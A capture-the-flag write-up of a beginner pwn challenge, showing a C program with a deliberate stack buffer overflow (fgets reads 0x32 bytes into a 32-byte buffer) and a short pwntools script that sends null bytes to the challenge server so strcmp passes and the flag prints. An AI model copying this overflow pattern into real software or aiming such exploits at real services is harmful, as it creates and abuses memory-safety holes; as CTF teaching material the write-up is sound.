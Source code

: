 # warmup
category: pwn | 316 points | 17 solves | author: main

## Description
Just a warmup. `nc challs.sieberrsec.tech 3476`

```c
#include <stdio.h>
int main() {
    char input[32];
    char flag[32];
    // read flag file
    FILE *f = fopen("flag", "r");
    fgets(flag, 32, f);
    fclose(f);
    // read the user's guess
    fgets(input, 0x32, stdin);
    // if user's guess matches the flag
    if (!strcmp(flag,input)) {
        puts("Predicted!");
        system("cat flag");
    } else puts("Your flag was wrong :(");
}
```

N.B. please do not try to bruteforce the flag. Attempts at doing so will be taken as an attack on server infrastructure, and will leave you liable for disqualification.

## Solution
This is a chall I didn't originally manage to get. 

```c 
    char input[32];
    char flag[32];
```
the input is declared as 32 bytes, and the flag is declared immediately after. 

the second (free) hint is a link to <https://en.wikipedia.org/wiki/Null-terminated_string>.

> A common bug was to not allocate the additional space for the NUL, so it was written over adjacent memory

The length of the `input` buffer is 32 bytes, but the program reads `0x32` or 50 bytes. So you can overwrite the flag after sending 32 bytes. 

the program also uses `strcmp()`. 
> strcmp() checks for the occurrence of NULL character in string, so that it will termination the function. ([source](https://www.quora.com/Does-STRCMP-check-for-NULL))

The idea is 
```
| input (32 bytes) | flag (32 bytes) |

sending NULL + 31 bytes + NULL

| input (NULL + 31 bytes) | flag (NULL + 31) | 

strcmp() will only read until NULL, and not the rest.
```

a code like this would work 
```python
from pwn import *

context.log_level="debug"

p = remote("challs.sieberrsec.tech", 3476)

#a null byte is b"\x00"
p.sendline(b"\x00"*33)

p.interactive()
```
as long as you send between 33-48 NULL bytes. any shorter will not overwrite the flag and any further would overwrite too much. 

![warmup1.png](warmup1.png)

IRS{nU1L_t3rminat0r}

## comments
- Values are on the stack according to where they're declared
- However, sometimes compilers add some "buffer" in between values
- Thus, decompilers etc help
^^thanks sean
warmup chall with 17 solves very haha <br>
thanks sean i understand now 
